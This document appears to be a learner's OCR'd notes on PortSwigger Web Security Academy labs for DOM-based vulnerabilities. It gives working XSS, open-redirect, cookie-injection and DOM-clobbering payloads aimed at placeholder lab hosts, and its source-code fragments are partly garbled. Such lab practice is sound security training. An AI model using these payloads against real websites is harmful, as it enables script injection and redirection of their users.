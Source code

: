 **DOM XSS using web messages and JSON.parse**
    
    print()
    window.addEventListener('message', function(e){...
        var iframe = document.createElement('iframe', ACME player ={
            element: iframe .......
        catch(e){..}
        switch(d.type){
            case "page-load", .. "load-channel", .. "player-height-changed"
        }
```html
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'> 
```
---

**DOM-based open redirection**
    
    redirect victim to exploit server
    blog post contain
    |- <a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```URL
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

---

**DOM-based cookie manipulation**

    print()
    cookie and Last viewed product function
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```

---

**Exploiting DOM clobbering to enable XSS** !EX
    
    alert()
    <script>loadComments('/post/comment')
    /resources/js/loadCommentsWithDomClobbering.js
    loadCommentsWithDomPurify.js
1. comment on a blog post with a text below
```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```
2. make a second post

---

**Clobbering DOM attributes to bypass HTML filters** !EX

    print()
    <script>loadComments('/post/comment')
    /resources/js/loadCommentsWithHtmlJanitor.js
    /resources/js/htmlJanitor.js
1. comment on any post with a text below
```html
<form id=x tabindex=0 onfocus=print()><input id=attributes>
```
2. exploit server and modified the postId matches (1.), then send
```html
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">
```
3. relaod a page

[def]: #client-side-summary